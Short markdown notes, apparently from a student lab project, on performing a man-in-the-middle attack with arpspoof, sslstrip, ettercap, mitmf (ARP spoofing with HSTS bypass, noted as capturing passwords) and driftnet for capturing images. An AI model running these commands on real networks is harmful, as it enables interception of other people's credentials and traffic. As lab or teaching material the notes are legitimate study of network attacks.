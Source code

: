 #28122015

###Man In The Middle attack without ettercap

Installing arpspoof(dsniff)
* apt-get install dsniff

Installing sslstrip
* [LINK] (http://blog.petrilopia.net/linux/raspberry-pi-install-sslstrip/)

no module twisted web found
* apt-get install python-twisted-web

default gateway on attacker pc
* route -n

Mac address from attack computer the same as raspberry 

![FOTO](http://i.imgur.com/x5ZWnHw.png)

###With ettercap

![FOTO](http://i.imgur.com/DkTBB9v.jpg)

![FOTO](http://i.imgur.com/uCBNZT1.jpg)

![FOTO](http://i.imgur.com/2JCA5ow.jpg)

![FOTO](http://i.imgur.com/BgeXIaa.jpg)

###With raspberry

install unzip

**We chose to stop our work with the raspberry pi**

###On pc

Problems with twisted-web

**Got passwords** 
* mitmf -i eth0 --target 192.168.137.64 --gateway 192.168.137.1  --arp --spoof --hsts
* 2 spaties voor --arp!!!!!

**Got images** 
* driftnet -b -i eth0

